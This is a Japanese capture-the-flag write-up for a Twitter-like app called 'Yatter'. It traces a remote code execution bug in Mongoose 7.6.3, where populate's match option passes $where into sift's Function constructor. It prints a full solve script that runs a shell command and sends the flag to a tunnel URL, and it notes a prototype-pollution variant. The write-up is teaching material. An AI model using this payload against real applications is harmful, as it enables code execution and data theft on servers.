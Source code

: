 # Yatter Writeup (ja)

## 作者

@n4o847

## 問題概要

リンクを開くと、Twitter のような SNS サイト "Yatter" にアクセスします。
登録したユーザーはここから "Yeet" と呼ばれる投稿をしたり、他のユーザーをフォローしたり、他のユーザーの Yeet にいいねしたりできます。

![Yatter](https://i.imgur.com/C4EPeud.png)

配布ファイルを読むと、このサイトの構成は大体以下の通りであることがわかります。

- 使用ライブラリ
  - bcrypt
  - ejs
  - express
  - express-session
  - mongoose
- モデル
  - `User`
    - `username`
    - `password`
    - `following`
    - `followers`
    - `posts` (virtual)
  - `Post`
    - `author`
    - `content`
    - `likes`
- ページ
  - `/` タイムライン
  - `/register` 登録ページ
  - `/login` ログインページ
  - `/@:username` ユーザープロフィール
  - `/@:username/:postId` 投稿詳細
- アクション
  - `/register` 登録する
  - `/login` ログインする
  - `/logout` ログアウトする
  - `/post` 投稿する
  - `/users/:userId/follow` フォローする
  - `/users/:userId/unfollow` フォローを外す
  - `/posts/:postId/like` いいねする
  - `/posts/:postId/unlike` いいねを外す

この問題の目的は、サーバーにある秘密のテキストファイル (ただしファイル名は不明) を読み取り、フラグを得ることです。

## 脆弱性

ユーザープロフィールページを開いたときに、タブが切り替えられることに気づきます。

|`/@:username`|`/@:username?tab=following`|`/@:username?tab=followers`|
|:-:|:-:|:-:|
|![Yeets](https://i.imgur.com/FyMKH7w.png)|![Following](https://i.imgur.com/0qLd3Zw.png)|![Followers](https://i.imgur.com/PP1UWje.png)|

この機能は以下のようなコードで実装されています。

```js
app.get("/@:username", async (req, res) => {
  const { username } = req.params;
  const tab = req.query.tab ?? "posts";

  const user = await User.findOne({ username })
    .populate(tab)
    .exec();

  const userId = req.session.userId;
  const me = await User.findById(userId);

  res.render("user", { me, user, tab });
});
```

`User` モデルが持っている `following`, `followers` フィールドは他の `User` への参照の配列、`posts` フィールドは仮想的なフィールドです。
これらを実体化させるために [mongoose](https://www.npmjs.com/package/mongoose) の [population](https://mongoosejs.com/docs/populate.html) という機能を使っています。

ここで express の `req.query` には文字列だけでなく配列やオブジェクトを設定できることが知られています。
加えて、mongoose の `populate` には引数で様々なオプションが指定できます。

よって、この部分の処理はだいぶ怪しいと言えます。

実際、ドキュメントで [`Model.populate`](https://mongoosejs.com/docs/api/model.html#Model.populate()) を調べると、以下のようにして MongoDB 上で JavaScript コードが呼び出せることが分かります。

```js
await User.findOne({ username })
  .populate({
    path: "author",
    match: {
      $where: `...`,
    },
  })
  .exec();
```

しかし、MongoDB 内の JavaScript インタプリタでは色々な制限がかかっており、任意のコードを実行するのは難しいようです。

……本当にそうでしょうか？

---

ここからは、少し根気が要るかも知れません。
結論から言えば、mongoose の `populate` 関数には任意コード実行の脆弱性があり、それを探すことになります。

mongoose 内で、`populate` がどのように呼び出されているのかを追っていきます。

[`Model.populate`](https://github.com/Automattic/mongoose/blob/7.6.3/lib/model.js#L4261-L4282) は `_populate` を通じて各パスに対して `populate` を呼び出し、その中で `_assign` を呼び出し、`assignVals` を呼び出しています。

この `assignVals` にだいぶ[怪しい箇所](https://github.com/Automattic/mongoose/blob/7.6.3/lib/helpers/populate/assignVals.js#L97-L99)があることに気づきます。

```js
      valueToSet = Array.isArray(rawIds[i]) ?
        rawIds[i].filter(sift(o.match[i])) :
        [rawIds[i]].filter(sift(o.match[i]))[0];
```

どうやら、`populate` に渡されたオプションの `match` プロパティが配列だったとき、[sift](https://www.npmjs.com/package/sift) というライブラリの関数が呼ばれるようです。

この sift は MongoDB 風のクエリをフィルタ関数に変換するライブラリですが、本来は MongoDB に BSON で送るべきものを JavaScript そのもので処理しているので、挙動が異なります。
sift が [`$where` を実装しているところ](https://github.com/crcn/sift.js/blob/225980417e49d3d1124ef7338ee8673b8da836ff/src/operations.ts#L393-L411)を読むと、なんと `Function` コンストラクタを使って関数を動的に生成しています。

```js
export const $where = (
  params: string | Function,
  ownerQuery: Query<any>,
  options: Options
) => {
  let test;

  if (isFunction(params)) {
    test = params;
  } else if (!process.env.CSP_ENABLED) {
    test = new Function("obj", "return " + params);
  } else {
    throw new Error(
      `In CSP mode, sift does not support strings in "$where" condition`
    );
  }

  return new EqualsOperation(b => test.bind(b)(b), ownerQuery, options);
};
```

つまり、`match: [{ $where: ... }]` のようにしてコードを渡すことで、任意のコードが実行できるのです！

注意点として、`Function` による実行の前に MongoDB 内の JavaScript インタプリタで実行されてしまうので、`typeof process === "undefined" ? true : ...` のようにして、どちらで実行されているかを判別する必要があります。

## 解法

`@a` というユーザー名でユーザーが登録されていると仮定します。

```js
const express = require("express");
const localtunnel = require("localtunnel");

async function main() {
  const remoteHost = process.argv[2] ?? "localhost";
  const remotePort = parseInt(process.argv[3] ?? "18080", 10);

  const localPort = 3000;

  const app = express();

  app.get("/", (req, res) => {
    console.log(req.query.flag);
    res.send("ok");
  });

  const server = await new Promise((resolve) => {
    const server = app.listen(localPort, () => resolve(server));
  });

  const username = `a`;

  const tunnel = await localtunnel({ port: localPort });

  const payload =
    `typeof process === "undefined" ? true : fetch("${tunnel.url}/?flag=" + process.mainModule.require("child_process").execSync("cat flag-*.txt"))`;
  const params = new URLSearchParams({
    "tab[path]": "posts",
    "tab[match][][$where]": payload,
  });

  await fetch(
    `http://${remoteHost}:${remotePort}/@${username}?${params}`,
  );

  tunnel.close();
  server.close();
}

main();
```

## 発展

この脆弱性は `populate` に任意の構造のオブジェクトを渡せるときに限って発生しました。
しかし、プロトタイプ汚染が行われていた場合、他の使い方でも任意コード実行が起こり得ます。
すなわち、この脆弱性はプロトタイプ汚染ガジェットとして利用可能ということです。

例えば、データを一気に挿入する [`Model.insertMany`](https://mongoosejs.com/docs/api/model.html#Model.insertMany()) 関数は、パラメータとして `populate` オプションを取ります。
`insertMany` 内部には[以下のような判定コード](https://github.com/Automattic/mongoose/blob/7.6.3/lib/model.js#L3242)があります。

```js
        if (options.populate != null) {
```

よって、プログラム上 `populate` オプションが指定されていなくても、`Object.prototype` がプロトタイプ汚染されていた場合、任意コード実行が可能です。
